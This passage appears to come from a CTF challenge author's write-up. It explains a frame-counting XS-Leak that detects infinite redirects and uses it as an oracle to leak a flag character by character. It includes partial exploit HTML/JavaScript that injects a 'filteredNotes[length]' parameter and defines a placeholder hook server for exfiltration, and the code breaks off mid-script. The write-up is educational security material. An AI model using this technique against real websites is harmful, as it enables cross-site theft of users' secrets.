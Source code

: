 Now, consider the output of `msg` contains `<iframe></iframe>`.

If the error page is rendered, it increments `window.length`. However, if infinite redirects occur, the page is not rendered and `window.length` is not incremented.

By a well-known technique[^xs-leak], you can access the `window.length` from a cross-site page. So, you can detect whether infinite redirects have occurred.

[^xs-leak]: Frame Counting | XS-Leaks Wiki: https://xsleaks.dev/docs/attacks/frame-counting/

#### Exploitation code

Therefore, you can construct an oracle to judge the prefix of a flag by combining the above steps.

You can steal the flag by serving the following pages on your server:

```html title="index.html"
<!DOCTYPE html>
<html>

<head>
</head>

<body>
  <script>

    const baseUrl = "http://web:3000";
    // const baseUrl = "http://localhost:3000";

    const hookUrl = "http://your-hook-server.example.com"

    const sleep = msec => new Promise(resolve => setTimeout(resolve, msec));
    const chars = "}_0123456789abcdefghijklmnopqrstuvwxyz".split("");

    const search = async (prefix) => {
      const w = open(`/post.html?prefix=${encodeURIComponent(prefix)}&url=${encodeURIComponent(baseUrl)}`);
      await sleep(1000);
      w.close();

      const ws = [];

      for(const c of chars) {
        const injected = ' filteredNotes';

        const params = new URLSearchParams();
        params.append("search", prefix + c);
        params.append(injected, "x");
        params.append(injected + "[length]", "100000");
        params.append("msg", "<iframe></iframe>");

        ws.push(open(`${baseUrl}/?${params}`));
      }

      await sleep(2000);

      let nextChar = null;
      for(let i=0; i<ws.length; i++) {
        if (ws[i].length > 0) {
          nextChar = chars[i];
        }
        ws[i].close();
      }
      return nextChar;
    }

    const main = async () => {
```

[^unintended]: I welcome unintended solutions because they help me learn something and create diversity in the challenges (but, as an author, I should emit no unintended solutions to maintain the quality of challenges).